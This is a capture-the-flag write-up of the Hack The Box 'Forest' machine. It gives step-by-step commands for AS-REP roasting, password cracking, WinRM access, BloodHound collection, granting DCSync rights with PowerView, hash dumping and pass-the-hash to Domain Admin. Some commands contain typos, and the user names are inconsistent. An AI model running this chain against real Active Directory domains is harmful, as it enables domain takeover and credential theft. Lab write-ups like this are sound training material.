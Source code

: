 we add the machine to /etc/hosts:

	10.10.10.161    HTB

we started by enumerating the target machine with nmap:

	nmap -p- 10.10.10.161

output:

	53/tcp    open  domain
	88/tcp    open  kerberos-sec
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	389/tcp   open  ldap
	445/tcp   open  microsoft-ds
	464/tcp   open  kpasswd5
	593/tcp   open  http-rpc-epmap
	636/tcp   open  ldapssl
	3268/tcp  open  globalcatLDAP
	3269/tcp  open  globalcatLDAPssl
	5985/tcp  open  wsman
	9389/tcp  open  adws
	47001/tcp open  winrm

there is open Kerberos, LDAP Winrm it's importa for connection to the machine.
then we run enum4linux against the target machine:

	emux4linux 10.10.10.161

output:

	user:[Administrator] rid:[0x1f4]
	user:[Guest] rid:[0x1f5]
	user:[krbtgt] rid:[0x1f6]
	user:[DefaultAccount] rid:[0x1f7]
	user:[sebastien] rid:[0x479]
	user:[lucinda] rid:[0x47a]
	user:[svc-alfresco] rid:[0x47b]
	user:[andy] rid:[0x47e]
	user:[mark] rid:[0x47f]
	user:[santi] rid:[0x480]
	user:[miku] rid:[0x2581]
	user:[tester1] rid:[0x2582]
	user:[tester3] rid:[0x2583]
	user:[tester4] rid:[0x2584]

it has done a rid-brute without use CME, so this time i try so search some users with the DON_REQUIRE_PREAUTH flag fo kerberos 

	impacket-GetNPUsers HTB/svc-alfresco -no-pass

output:

	Getting TGT for svc-alfresco
	$krb5asrep$23$svc-alfresco@HTB:<REDACTED>

now it's time to use john and crack it with the followin command:

	nano hash /We paste the TGT/
	john hash -w=/usr/share/wordlists/rockyou.txt

Now we have the password and we can neter with Evil-Winrm with the following command:

	evil-winrm -i HTB -u svc-alfresco -p S3rvice 

we're in and we can retrieve the user.txt.
now it's time to use bloodhund (we skip the setup part, you can search on internet), we upload the sharphound on the target machine, on the kali we turn on neo4j and bloodhund 

	upload sharphound.ps1 C:\Windows\Tasks\sharp.ps1
	. .\sharp.ps1
	Invoke-BloodHound -CollectionMethod All -OutputDirectory "C:\Windows\Tasks"

we receive a .zip to download on kali and we insert in bloodhund, in bloodhund we search the user _"SVC-ALFRESCO@HTB.LOCAL"_ and the group _"DOMAIN CONTROLLERS@HTB.LOCAL"_, we can see that we have writeDACL, in short terms we can modift the access-control lists with the following commands:

Windows machine:

	$pw = "tester1234" | ConvertTo-SecureString -AsPlainText -Force
	new-localUser tester1 -Password $pw -FullName "tester" -Description "tester"
	net localgroup "Remote Management Users" /add tester3
	net group "Exchange Windows Permissions" /add tester3
	net user tester3

kali machine:

	evil-winrm -u tester3 -p tester1234 -i HTB 

we enter and we upload powerview, because we want to use the command _Add-DomainObjectAcl_ to add a new object to DACL that it has DYSnc right in order to retrieve the Administrator NTLM Hash

	upload /home/kali/Downloads/PowerView.ps1 C:\Windows\Tasks\pw.ps1
	import-module .\pw.ps1
    Add-DomainObjectAcl -TargetIdentity "DC=htb, DC=local"  -PrincipalIdentity tester3  -Rights DCSync -verbose

Now with this command we retrieve the NTLM hash of all Users but in particular of the Administrator:

    impacket-secretsdump -dc-ip 10.10.10.161 tester3:tester1234@10.10.10.161

we logon:

	evil-winrm -i HTB -u Administrator -H <REDACTED>

we're in and we can retrieve the root flag.
